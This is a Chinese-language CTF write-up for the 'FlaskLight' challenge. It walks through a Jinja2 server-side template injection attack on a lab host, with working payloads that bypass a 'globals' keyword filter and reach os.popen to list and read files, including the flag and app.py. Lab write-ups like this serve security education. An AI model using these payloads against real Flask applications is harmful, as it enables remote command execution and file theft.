```yaml
---
layout: mypost
title: "[CSCCTF 2019 Qual]FlaskLight"
categories: [ctf_wp]
---
```


(强烈建议大家先去看这篇文章--关于 SSTI 模板注入的那点事)

1.这个题的题目就已经挺明显的给出信息了，这个使用一个 Flask 框架搭建的一个网站，所以这八成是一个 SSTI 模板注入，然后 f12 查看一下源码

```
<!-- Parameter Name: search -->
 <!-- Method: GET -->
```

源码提示了要用 GET 方法去提交一个名为 search 的参数，所以这题思路就很明确，上来先验证一下猜想，拿个经典 payload 测试一下

![](屏幕截图-2023-10-04-185841-1024x202.png)

结果也很明显了，想办法 SSTI 就行，针对于怎么去模板注入，本人也在博客的另一篇文章有详细的介绍（从概念到 payload），所以再此就不在赘述

2.首先还是经典 config，看看有没有有利用价值的方法，这个方法没找见，但是找到了一个提示，说这个 flag 就在当前的这个目录，和网站源码应该是放在一起的

![](Screenshot_164-1024x383.png)

然后就试了一下这个经典 payload（这个没啥目的哈，就是测试一下这个环境和以前有道题差不多，因为这个 flask.config.Config 太熟悉了）

```
http://5b9e2f12-b126-4504-9977-f35693fec327.node4.buuoj.cn:81/?search={{config.__class__.__base__.__subclasses__()}}
```

![](Screenshot_165-1024x325.png)

然后测测 config

```
{{config.__class__.__init__.__globals__}}
```

![](屏幕截图-2023-10-04-190954-1024x125.png)

发现这个报错了，当时以为就是可能 config 里面不存在方法，对象吧，但现在看来我当时好傻，这咋可能欸

3.然后觉得这个绝对路径不行，我就开始从最开始的根目录开始试，下面是具体的 payload

```
http://5b9e2f12-b126-4504-9977-f35693fec327.node4.buuoj.cn:81/?search={{().__class__.__base__.__subclasses__()}}
```

![](Screenshot_166-1024x476.png)

很明显我就是要用这个类，然后我也不想写脚本去确定它到底是第几位，然后 index（）的话，搞了半天，不知道是不是被禁用了（这里就感觉之前那个 config 的时候，是不是哪个关键词被禁用了，因为这个题目不管是哪里出了问题都是给个 500），一直给 500 的错误，然后就一个一个确定，它是第 59 位，然后就实例化一下这个类，看有啥方法

```
http://5b9e2f12-b126-4504-9977-f35693fec327.node4.buuoj.cn:81/?search={{().__class__.__base__.__subclasses__()[59].__init__.__globals__}}
```

![](屏幕截图-2023-10-04-191805-1024x104.png)

它竟然还是一个 500 错误，这下就坐实了，肯定是哪个关键字被过滤了，然后就一个一个测试，发现给 globals 少写一个 s 就正常，所以肯定是 globals 被过滤了

![](屏幕截图-2023-10-04-191916-1024x163.png)

4.然后这个绕过就很简单，之前那篇文章也给过相关的 payload，下面给出绕过的 payload

```
http://5b9e2f12-b126-4504-9977-f35693fec327.node4.buuoj.cn:81/?search={{().__class__.__base__.__subclasses__()[59].__init__.__getattribute__(%27__gl%27+%27obals__%27)}}
```

![](屏幕截图-2023-10-04-192151-1024x415.png)

5.然后就很舒服了，这里面有 import，那就直接 import os，然后用 popen 执行命令，然后.read 回显，整个动作一气呵成，这个都在那篇文章中有解释，自己不懂的话，可以先去看那篇文章，下面给出 payload，由于一开始题目就提示在同一目录下，所以就直接 ls /flasklight

```
http://5b9e2f12-b126-4504-9977-f35693fec327.node4.buuoj.cn:81/?search={{().__class__.__base__.__subclasses__()[59].__init__.__getattribute__(%27__gl%27+%27obals__%27).__builtins__[%27__imp%27+%27ort__%27](%27o%27+%27s%27).popen(%27ls%20/flasklight%27).read()}}
```

![](屏幕截图-2023-10-04-192516-1024x102.png)

然后直接 cat 另一个文件就行

```
http://5b9e2f12-b126-4504-9977-f35693fec327.node4.buuoj.cn:81/?search={{().__class__.__base__.__subclasses__()[59].__init__.__getattribute__(%27__gl%27+%27obals__%27).__builtins__[%27__imp%27+%27ort__%27](%27o%27+%27s%27).popen(%27cat%20/flasklight/coomme_geeeett_youur_flek%27).read()}}
```

![](image-20231004192718033-1024x106.png)

然后 cat 一下这个源码文件，验证一下猜想，是不是过滤了这个关键字

```
http://5b9e2f12-b126-4504-9977-f35693fec327.node4.buuoj.cn:81/?search={{().__class__.__base__.__subclasses__()[59].__init__.__getattribute__(%27__gl%27+%27obals__%27).__builtins__[%27__imp%27+%27ort__%27](%27o%27+%27s%27).popen(%27cat%20/flasklight/app.py%27).read()}}
```

![](Screenshot_167-1024x135.png)

验证成功哈，ok 那这道题就到这里辣

Finish!!!